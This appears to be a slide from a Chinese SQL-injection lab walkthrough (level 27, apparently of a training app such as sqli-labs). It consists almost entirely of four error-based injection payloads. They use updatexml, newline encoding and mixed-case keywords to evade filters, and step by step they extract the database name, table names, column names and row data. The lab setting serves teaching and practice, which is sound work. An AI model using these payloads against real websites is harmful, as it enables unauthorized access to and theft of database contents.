

# 第二十七关

判断库名： 'and%0aupdatexml(1,concat(0x7e,(database()),0x7e),1)or '1'='1

判断表名：'and%0aupdatexml(1,concat(0x7e,(selEct%0atable_name%0afrom%0a information_schema.tables%0awhere%0atable_schema='security'limit%0a0,1),0x7e),1)or '1'='1

判断列名：'and%0aupdatexml(1,concat(0x7e,(sElect%0acolumn_name%0afrom %0ainformation_schema.columns%0awhere%0atable_schema='security'%0aand %0atable_name='emails'%0alimit%0a0,1),0x7e),1)or '1'='1

判断数据：'and%0aupdatexml(1,concat(0x7e,(sElect%0aid%0afrom%0aemails%0alimit %0a0,1),0x7e),1)or '1'='1